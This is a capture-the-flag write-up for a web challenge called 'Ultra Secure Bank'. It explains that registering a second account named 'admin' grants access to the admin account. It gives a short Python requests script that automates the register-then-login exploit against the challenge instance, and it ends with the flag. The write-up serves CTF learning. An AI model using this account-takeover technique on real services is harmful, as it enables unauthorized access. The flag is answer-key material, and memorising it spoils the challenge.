

#  USB - Ultra Secure Bank

## Description

Ultra Secure Bank was famous for being super safe — so safe that no one could break in. So the bank challenged the whole world to try to break in. Can you find your way into the most secure account and save the day? Find a way past its strong security? Show your skills and conquer the Ultra Secure Bank!

## Solution

1. Register on a website as username admin
2. Login using the admin credentials (The response was visible in burp repeater)
6. This was the code I came up with to automate the exploit:
```python
import requests

reg_url = "https://ch4466176071.ch.eng.run/api/register"
log_url = "https://ch4466176071.ch.eng.run/api/login"
headers = {"Sec-Ch-Ua-Mobile": "?0", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36", "Content-Type": "application/json"}
data_json={"password": "admin", "username": "admin"}
requests.post(reg_url, headers=headers, json=data_json)
res = requests.post(log_url, headers=headers, json=data_json)
print(res.json())
```
7. Simply replace the url with your instance url and run the code using python3

## Screenshots



## Flag

flag{FN1+QS28tg67sxW42RlTkg==}